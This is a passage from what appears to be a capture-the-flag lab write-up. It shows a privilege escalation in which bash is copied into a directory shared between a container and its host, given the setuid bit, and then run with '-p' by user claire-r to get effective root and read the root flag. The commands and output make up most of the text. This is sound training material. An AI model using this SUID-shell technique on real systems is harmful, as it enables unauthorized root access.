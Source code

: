 ```bash
drwxrwxrwt   1 root root 4096 Dec 21  2022 tmp
drwxr-xr-x   1 root root 4096 Dec 19  2022 usr
drwxr-xr-x   1 root root 4096 Dec 19  2022 var
root@de0610f51845:/# cd logs
cd logs
root@de0610f51845:/logs# ls -al
ls -al
total 12
drwxrw-rw- 2 1001 1001 4096 Dec 22  2022 .
drwxr-xr-x 1 root root 4096 Dec 22  2022 ..
-rw-r--r-- 1 root root   97 Feb  3 17:22 tt.log
root@de0610f51845:/logs# cp /bin/bash smash
cp /bin/bash smash
root@de0610f51845:/logs# chmod u+s smash
chmod u+s smash
root@de0610f51845:/logs# ls -al
ls -al
total 1220
drwxrw-rw- 2 1001 1001    4096 Feb  3 17:24 .
drwxr-xr-x 1 root root    4096 Dec 22  2022 ..
-rwsr-xr-x 1 root root 1234376 Feb  3 17:24 smash
-rw-r--r-- 1 root root      97 Feb  3 17:22 tt.log
root@de0610f51845:/logs# 
```
{: .nolineno}
{: .nolineno}
Here I copied the bash and put it into the logs folder and given the permissions for `set user ID` as (SUIDs) and then I accessed this `bash` made `smash` through `claire-r` machine and used that to get `effective user ID` (eUID) as root and I got it ->

```bash
claire-r@ctf:~/timeTracker-src$ cd logs
claire-r@ctf:~/timeTracker-src/logs$ ls -al
total 1220
drwxrw-rw- 2 claire-r claire-r    4096 Feb  3 17:24 .
drwxrwxr-x 6 claire-r claire-r    4096 Dec 22  2022 ..
-rwsr-xr-x 1 root     root     1234376 Feb  3 17:24 smash
-rw-r--r-- 1 root     root          97 Feb  3 17:22 tt.log
claire-r@ctf:~/timeTracker-src/logs$ ./smash -p
smash-5.1# whoami
root
smash-5.1# id
uid=1001(claire-r) gid=1001(claire-r) euid=0(root) groups=1001(claire-r)
smash-5.1# cd /root
smash-5.1# ls -al
total 40
drwx------  5 root root 4096 Sep 22 18:32 .
drwxr-xr-x 19 root root 4096 Dec 20  2022 ..
lrwxrwxrwx  1 root root    9 Sep 22 18:32 .bash_history -> /dev/null
-rw-r--r--  1 root root 3106 Dec  5  2019 .bashrc
drwx------  3 root root 4096 Dec 22  2022 .gnupg
-rw-r--r--  1 root root  161 Dec  5  2019 .profile
-rw-r--r--  1 root root   38 Dec 22  2022 root.txt
drwx------  4 root root 4096 Dec 20  2022 snap
drwx------  2 root root 4096 Dec 20  2022 .ssh
-rw-------  1 root root 1106 Dec 22  2022 .viminfo
-rw-r--r--  1 root root  165 Dec 22  2022 .wget-hsts
smash-5.1# cat root.txt
THM{FLAG_FLAG_FLAG_FLAG_FLAG}
smash-5.1# 
```
{: .nolineno}
{: .nolineno}
